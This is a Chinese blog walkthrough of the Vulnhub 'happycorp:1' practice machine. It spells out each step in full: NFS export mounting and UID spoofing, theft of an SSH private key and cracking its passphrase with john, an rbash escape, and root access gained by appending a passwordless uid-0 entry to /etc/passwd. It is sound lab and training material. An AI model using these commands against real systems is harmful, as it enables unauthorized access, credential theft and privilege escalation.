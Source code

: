 ```yaml
---
layout: post
title:  "happycorp：1靶机游玩记录"
subtitle: 'happycorp：1靶机游玩记录'
date:   2019-07-22 18:00:00
tags: 靶机
description: '靶机 happycorp'
color: 'rgb(255,165,0)'
cover: 'https://i.loli.net/2019/07/22/5d358243eb11081011.png'
---
```


#### 前言 


靶机说明下载地址：
https://www.vulnhub.com/entry/happycorp-1,296/

下载后解压执行happycorp_1.ovf复制虚拟机，自动会分配IP地址

#### 探测

扫描了一下靶机IP地址为：192.168.111.131 

使用nmap探测端口
![nmap.png](https://i.loli.net/2019/07/22/5d358175e5f4216022.png)

也可以用rpcinfo命令，rpcinfo 命令会向 RPC 服务器发出 RPC 调用，并显示结果

```
root@kali:~# rpcinfo -p 192.168.111.131
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  38756  mountd
    100005    1   tcp  48565  mountd
    100005    2   udp  37335  mountd
    100005    2   tcp  37845  mountd
    100005    3   udp  57602  mountd
    100005    3   tcp  35557  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100227    3   udp   2049
```

showmount -e 检索主机的文件夹
```
root@kali:~# showmount -e 192.168.111.131
Export list for 192.168.111.131:
/home/karl *

```
#### 尝试入侵
使用mount去挂载

```
mount -t nfs 192.168.111.131:/home/karl /ttt
```
![10.png](https://i.loli.net/2019/07/23/5d3665eb44c2a35740.png)
但ssh目录拒绝访问，可以伪造文件所有者的UID来欺骗NFS服务器  
新增一个uid为1001的用户来访问即可

```
echo "test:x:1001:1001::/home/test:/bin/sh" /etc/passwd
```
![11.png](https://i.loli.net/2019/07/23/5d3669a6226c280272.png)

也可以使用nfs利用工具[nfspy说明](https://github.com/bonsaiviking/NfSpy)  
使用nfspy去挂载文件


```
nfspy -o server=192.168.111.131:/home/karl,hide,allow_other,ro,intr /ttt

```
挂载成功，但是访问会报错

```
root@kali:/# cd ttt
bash: cd: ttt: Input/output error

```
卸载ttt

```
fusermount -u /ttt
```
查看nsf和portmap服务正常
![9.png](https://i.loli.net/2019/07/23/5d3662b1cc45361585.png)
查看log也未发现异常,暂时先做个记录。报错原因未知。

使用nfspysh连接没有问题


```
root@kali:/# nfspysh -o server=192.168.111.131:/home/karl
nfspy@192.168.111.131:/home/karl:/> ls
/:
000600   1001   1001          28 2019-03-04 20:55:40 .lesshst
000777      0      0           9 2019-03-05 05:11:30 .bash_history
000755   1001   1001        4096 2019-03-05 05:15:14 .
000644   1001   1001         675 2019-03-04 16:09:13 .profile
000700   1001   1001        4096 2019-03-05 05:10:36 .ssh
000644   1001   1001        3538 2019-03-05 05:15:13 .bashrc
000755   1001   1001        4096 2019-03-05 05:15:14 ..
000644   1001   1001         220 2019-03-04 16:09:13 .bash_logout
#下载文件
nfspy@192.168.111.131:/home/karl:/> cd .ssh
nfspy@192.168.111.131:/home/karl:/.ssh> get id_rsa /temp
nfspy@192.168.111.131:/home/karl:/.ssh> get id_rsa.pub /temp	
nfspy@192.168.111.131:/home/karl:/.ssh> get user.txt /temp
nfspy@192.168.111.131:/home/karl:/.ssh> get authorized_keys /temp
```
![2.png](https://i.loli.net/2019/07/22/5d358244f34f272571.png)
可以看到第一个flag和账户名karl@happycorp  
既然拿到了私钥就尝试登录一下

```
ssh -i id_rsa karl@192.168.111.131
```
![3.png](https://i.loli.net/2019/07/22/5d3582444249282332.png)
发现报错，重新给个权限

```
chmod 600 id_rsa.pub
```
发现需要密码

使用john解密ssh私钥密码


```
#先将私钥转换成可破解的hash值
python /usr/share/john/ssh2john.py id_rsa > hash.txt
#使用john跑密码
john hash.txt
```
![4.png](https://i.loli.net/2019/07/22/5d358244de76c70724.png)
密码爆破出来是sheep

登录成功但发现是rbath
![5.png](https://i.loli.net/2019/07/22/5d3582443217395945.png)
使用交互式绕过
ssh -i id_rsa karl@192.168.111.131 -t /bin/sh

登录后查看权限、可执行命令等
![6.png](https://i.loli.net/2019/07/22/5d3582441ef0962646.png)
使用cp命令覆盖/etc/passwd以达到新增root用户

```
cp /etc/passwd passwd
echo "k::0:0:::/bin/bash" >> passwd
cp passwd /etc/passwd
```

使用k账户登录获取root权限
最后拿到第二个flag
![7.png](https://i.loli.net/2019/07/22/5d358243d7fa871804.png)

#### 总结

1. nfs相关漏洞利用  
2. ssh私钥破解
3. rbash绕过
4. 利用系统可执行命令提权

通过对NFS的Share/Export进行控制来决定哪一台设备可以访问共享目录防止问题出现

参考文档：  
[针对NFS的渗透测试](https://www.freebuf.com/articles/network/159468.html)
[happycorp_1靶机渗透实战](https://www.anquanke.com/post/id/181786)
